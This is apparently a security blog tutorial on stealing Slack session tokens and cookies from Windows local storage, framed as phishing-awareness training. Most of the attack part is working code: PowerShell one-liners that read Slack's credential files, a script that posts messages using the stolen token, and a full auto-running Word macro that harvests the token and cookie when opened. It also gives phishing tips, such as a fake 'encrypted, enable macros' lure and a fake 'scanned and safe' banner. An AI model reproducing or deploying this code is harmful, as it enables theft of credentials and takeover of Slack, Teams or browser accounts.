


Slack (and other Electron apps) often use cookies to store session/access tokens. Perhaps we can extract and use these tokens for something?

Thanks to [loca1gh0s7](https://loca1gh0s7.github.io/) who gave me this idea!

## Extracting the tokens

Slack stores the token in local storage, and after a lot of trial and error I managed to extract the token using PowerShell and this regex:

```ps1
[regex]::match((Select-String -Pattern "token" "$env:AppData\Slack\Local Storage\leveldb\*.ldb"), '("name":)(.+)(token":")([0-9a-zA-Z-]+)').Groups[4].Value
```

If successful, you should see a token starting with `xoxc`.

But we also need the session cookie (with the cryptic name `d`), which we can get using this:

```ps1
[regex]::match((Select-String -Pattern ".slack.comd" -Context 0, 0 $env:AppData\Slack\Cookies), '(slack.comd)([a-zA-Z0-9%]+)/').Groups[2].Value
```

## Testing if we can use it

To quickly test if we can use this, we can use this script:

```ps1
$token = [regex]::match((Select-String -Pattern "token" "$env:AppData\Slack\Local Storage\leveldb\*.ldb"), '("name":)(.+)(token":")([0-9a-zA-Z-]+)').Groups[4].Value
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$cookie = New-Object System.Net.Cookie
$cookie.Name = "d"
$cookie.Value = [regex]::match((Select-String -Pattern ".slack.comd" -Context 0, 0 $env:AppData\Slack\Cookies), '(slack.comd)([a-zA-Z0-9%]+)/').Groups[2].Value
$cookie.Domain = "slack.com"
$session.Cookies.Add($cookie)
Invoke-WebRequest -Uri "https://app.slack.com/api/chat.postMessage?channel=[CHANNELID]&text=Evil%20message&pretty=1&token=$token"-Method GET -WebSession $session
```

Note that you will need to replace the channel-ID with the channel-ID you want to send a message to.

If successful, you should see a message posted by you in that channel.

## Let's use this for awareness training

That was fun, but let's do something useful!

We can do pretty much everything with the token/cookie, but for the purpose of awareness training, we can use it to [send a message](https://api.slack.com/methods/chat.postMessage) telling the user to stop running attachments from emails.

Let's use this scenario: we want to demonstrate the dangers of opening malicious documents. To achieve this, we use a Word document.

Create a new macro for the document, and add the following payload:

```vb
Const TEAM As String = ""
Const SELF_MESSAGE As String = "I should really stop running macros in unknown documents, next time it might not be this fun"
Const SLACKBOT_MESSAGE As String = "remind me to don't run macros in unknown documents again in 1 minute"
Const REPORTING_URL As String = ""

Private Sub Document_open()
    On Error GoTo 0
    
    #If Mac Then
        MsgBox SELF_MESSAGE
        ActiveDocument.FollowHyperlink REPORTING_URL
        Exit Sub
    #End If
    
    Dim levelPth As String
    Dim cookieFilePth As String
    
    levelPth = Environ$("USERPROFILE") & "\AppData\Roaming\Slack\Local Storage\leveldb\"
    cookieFilePth = Environ$("USERPROFILE") & "\AppData\Roaming\Slack\Cookies"
    
    Dim leveldbFile As String
    Dim token As String
    
    leveldbFile = Dir(levelPth & "*.ldb")
    Do Until leveldbFile = ""
        token = token & FindToken(levelPth & leveldbFile)
        If token = "" Then
            leveldbFile = Dir
        Else
            leveldbFile = ""
        End If
    Loop
    
    Dim cookie As String
    cookie = StealCookie(cookieFilePth)
    
    Dim channel As String
    channel = GetChannelId(token, cookie, "self")
    SendMessage token, cookie, channel, SELF_MESSAGE
    
    channel = GetChannelId(token, cookie, "USLACKBOT")
    SendMessage token, cookie, channel, SLACKBOT_MESSAGE
End Sub

Private Function ExtractRegex(text, pattern, index)
    On Error GoTo 0

    Dim regex As Object
    Set regex = New RegExp
    
    regex.pattern = pattern
    regex.Global = True
    regex.ignorecase = True
    
    Dim matches As Object
    Set matches = regex.Execute(text)
    
    For Each Match In matches
        ExtractRegex = Match.SubMatches.Item(index)
    Next
End Function

Private Function FindToken(file)
    On Error GoTo 0
    
    Dim fileContent As String
    fileContent = ReadFile(file)
    
    FindToken = ExtractRegex(fileContent, "(" & TEAM & ")(.+)(token"":"")([0-9a-zA-Z-]+)", 3)
End Function

Private Function StealCookie(file)
    On Error GoTo 0
    
    Dim fileContent As String
    fileContent = ReadFile(file)
    
    StealCookie = ExtractRegex(fileContent, "(slack.comd)([a-zA-Z0-9%]+)/", 1)
End Function

Private Function ReadFile(filePath)
    On Error GoTo 0
    
    Dim MyData As String, strData() As String
    Dim i As Long

    Open filePath For Binary As #1
    MyData = space$(LOF(1))
    Get #1, , MyData
    Close #1
    strData() = Split(MyData, vbCrLf)

    For i = LBound(strData) To UBound(strData)
        ReadFile = ReadFile & strData(i)
    Next i
End Function

Private Function GetChannelId(token, cookie, user)
    On Error GoTo 0
    
    Dim cookies As String
    cookies = "d=" & cookie

    Dim response As String
    
    If user = "self" Then
        response = XmlHttpRequest("POST", "https://" & TEAM & ".slack.com/api/auth.test?pretty=0&token=" & token, cookies, "")
        GetChannelId = ExtractRegex(response, "(""user_id"":"")([a-zA-Z0-9-+@.]+)("")", 1)
    Else
        response = XmlHttpRequest("GET", "https://" & TEAM & ".slack.com/api/conversations.open?users=" & user & "&text=" & URLEncode(message) & "&pretty=0&token=" & token, cookies, "")
        GetChannelId = ExtractRegex(response, "(""id"":"")([a-zA-Z0-9]+)("")", 1)
    End If
End Function

Private Function SendMessage(token, cookie, channel, message)
    On Error GoTo 0
    
    Dim cookies As String
    cookies = "d=" & cookie
    
    Dim sUrl
    sUrl = "https://" & TEAM & ".slack.com/api/chat.postMessage?channel=" & channel & "&text=" & URLEncode(message) & "&pretty=1&token=" & token
    XmlHttpRequest "GET", sUrl, cookies, ""
End Function

Private Function XmlHttpRequest(sMethod, sUrl, sCookies, payload)
    On Error GoTo 0
    
    With CreateObject("WinHttp.WinHttpRequest.5.1")
        .Open sMethod, sUrl, False
        .setRequestHeader "Cookie", sCookies
        .setRequestHeader "Content-type", "application/x-www-form-urlencoded"
        .send payload
        .waitForResponse 4000
        XmlHttpRequest = .responseText
    End With
End Function

Private Function URLEncode( _
   ByVal StringVal As String, _
   Optional SpaceAsPlus As Boolean = False _
) As String
    On Error GoTo 0
    
    Dim bytes() As Byte, b As Byte, i As Integer, space As String

    If SpaceAsPlus Then space = "+" Else space = "%20"

    If Len(StringVal) > 0 Then
        With New ADODB.Stream
            .Mode = adModeReadWrite
            .Type = adTypeText
            .Charset = "UTF-8"
            .Open
            .WriteText StringVal
            .Position = 0
            .Type = adTypeBinary
            .Position = 3 ' skip BOM
            bytes = .Read
        End With

        ReDim Result(UBound(bytes)) As String

        For i = UBound(bytes) To 0 Step -1
            b = bytes(i)
            Select Case b
                Case 97 To 122, 65 To 90, 48 To 57, 45, 46, 95, 126
                    Result(i) = Chr(b)
                Case 32
                    Result(i) = space
                Case 0 To 15
                    Result(i) = "%0" & Hex(b)
                Case Else
                    Result(i) = "%" & Hex(b)
            End Select
        Next i
        
        URLEncode = Join(Result, "")
        End If
End Function
```

Make sure you add this to `ThisDocument`:



Modify the constants as needed:

- TEAM = your team Slack-subdomain
- SELF_MESSAGE = message that will be sent to the user (from the user)
- SLACKBOT_MESSAGE = message that will be sent to Slackbot (from the user)
- REPORTING_URL = your company's security incident reporting URL

Note that this payload only works on Windows, it will simply present a dialog box telling the user to report this using the reporting URL when the document is opened on Mac.

You will also need to add the following references (Tools -> References):

- Microsoft ActiveX Data Objects 6.1 Library
- Microsoft VBScript Regular Expressions 5.5

This should give you a document that will run the payload when opened, stealing the token and sending one message to the user and one to Slackbot.

To make the macro work, we have to save it as a legacy document, using the `Word 97-2003 Document (.doc)` format

## Making it better

To make the document more believable, let's add some junk to it, and a note that says it's encrypted and need macros to be decrypted.



### Slackbot response

We can also add a custom Slackbot response to make Slackbot respond to the message sent to the user from the user. This will trigger an instant notification, alerting the user that something has happened (which is what we want to do).

### Email it

You can deliver this any way you want, like via email and a nice [banner stating that the attachment has been scanned and found safe to execute](/fake-microsoft-alerts).

## Why does this work

The payload above doesn't exploit a single vulnerability, yet it can allow us to take full control over the Slack accounts logged in on the machine.

This is a combination of weakness in the way cookies and local storage is stored, and the fact that we trick the user into executing this code locally.

We could use the exact same trick to extract tokens from Teams, Chrome or any other Chromium/Electron client.

### Why doesn't this work on MacOS?

The payload doesn't work on MacOS because the MacOS sandbox restrict access to the file system. Sandbox escape is out of scope for a simple phishing awareness exercise.

## References

- [Slack API](https://api.slack.com/methods)
- [How can I URL encode a string in Excel VBA?](https://stackoverflow.com/questions/218181/how-can-i-url-encode-a-string-in-excel-vba)
- [n0ncetonic/toke_em](https://github.com/n0ncetonic/toke_em)
